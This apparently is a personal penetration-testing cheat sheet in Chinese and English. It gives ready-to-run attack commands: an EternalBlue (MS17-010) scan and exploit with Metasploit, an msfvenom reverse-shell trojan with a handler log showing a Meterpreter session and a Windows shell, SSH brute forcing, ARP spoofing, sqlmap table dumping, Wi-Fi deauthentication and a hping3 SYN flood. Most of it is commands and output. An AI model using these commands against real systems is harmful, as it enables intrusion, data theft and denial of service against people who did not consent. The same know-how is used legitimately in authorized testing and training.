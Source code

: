 # msfconsole

```bash
snap install metasploit-framework
# Download the package
```

```bash
msfconsole
# Enter the console
```

## ms17_010

search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 



## ssh_login

```bash
search ssh_login

use 

set RHOSTS target
set USER_FILE /path/to/user_dict
set PASS_FILE /path/to/pass_dict
# The file type should be txt
```

```bash
vim password.txt
```





# arpspoof

[ARP欺骗工具arpspoof的用法](https://blog.csdn.net/who_im_i/article/details/120234324)

```bash
apt install -y dsniff ssldump
```

设置是否为目标和主机转发流量，0为不转发
```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

arp欺骗，需要指定相关网卡。
```bash
arpspoof -i <eth0> -t <target> <host>
# -i 指定特定的网卡
# -t 目标IP
# host 网关IP
```



# sqlmap

扫描当前数据库

```bash
sqlmap -u "url" --cookie="cookie" --current-db
```

```bash
sqlmap -u "url" --cookie="cookie" -D database --tables
sqlmap -u "url" --cookie="cookie" -D database -T table --columns
sqlmap -u "url" --cookie="cookie" -D database -T table -C col1,col2 --dump
```



# aircrack-ng

查看无线网卡信息

```bash
airmon-ng
```
开启网卡监听模式

```bash
airmon-ng start wlan0
```
使用airodump-ng 扫描信号

```bash
airodump-ng wlan0mon
```
|符号|意义|
|------|------|
| BSSID | AP端的MAC地址 |
| PWR   | 信号强度，数字越小越好 |
| \#Data | 对应的路由器的在线数据吞吐量，数字越大，数据上传量越大 |
| CH | 对应路由器的所在频道 |
| ESSID | 对应路由器的名称 |

使用airodump-ng 监听指定目标频道

```bash
airodump-ng -c <ch> -w aircrack/ --bssid <bssid> wlan0
```

使用aireplay-ng 进行解除认证攻击模式

```bash
aireplay-ng -0 0 -a <AP address> -c <client address> wlan0
# 指定AP和客户端的地址，将其进行破解
```

# hping3

```bash
hping3 -S -V --flood target
# hitting the port 80 server of server
```

# nmap

```bash
nmap -O -Pn target
# scan the OS of target

nmap -A target
# default script scanning from nmap and trace route

nmap 192.168.0.1-255
# scan a range of address
```
